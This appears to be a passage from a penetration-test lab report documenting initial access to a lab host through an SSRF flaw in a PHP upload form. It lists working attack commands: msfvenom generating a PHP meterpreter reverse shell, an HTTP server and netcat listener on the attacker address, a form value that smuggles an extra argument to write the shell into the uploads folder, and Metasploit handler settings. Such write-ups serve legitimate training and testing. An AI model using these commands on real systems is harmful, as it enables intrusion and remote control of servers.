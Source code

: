 
\newpage

#### Initial Access

**Vulnerability Exploited:** SSRF

**Vulnerability Explanation:**

An attacker can make a server-side request forgery via the form found at *http://10.10.10.24:80/uploads/* . An attacker could remotely execute code by manipulating the server to visit  a malicious url.

**Vulnerability Fix:**

Sanatize the input of the php form found at *http://10.10.10.24:80/uploads/*

**Severity:** Critical

\newpage

**Exploit Code:**

reference: *https://resources.infosecinstitute.com/topic/the-ssrf-vulnerability/*

Generate a reverse shell payload:

```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.3 lport=4321 -f raw -o shell.php
```

Start a simple http server:

```python
python3 -m http.server 80
```

Start a netcat listener:

```
nc -lvnp 4321 
```

Edit form request in burpsuite:


![x](screenshots-storage/Edit form request in burpsuite.png)


```txt
formurl=http://10.10.14.3/shell.php -o uploads/shell.php&submit=Go
```

we get a request on the attacker web server:

![x](screenshots-storage/request on the attacker web server.png)

visit the url to execute the reverse shell:
```txt
http://10.10.10.24/uploads/shell.php
```


in metasploit console:
```txt
use exploit/multi/handler 
set payload php/meterpreter/reverse_tcp
set lhost 10.10.14.3
set lport 4321
run
```
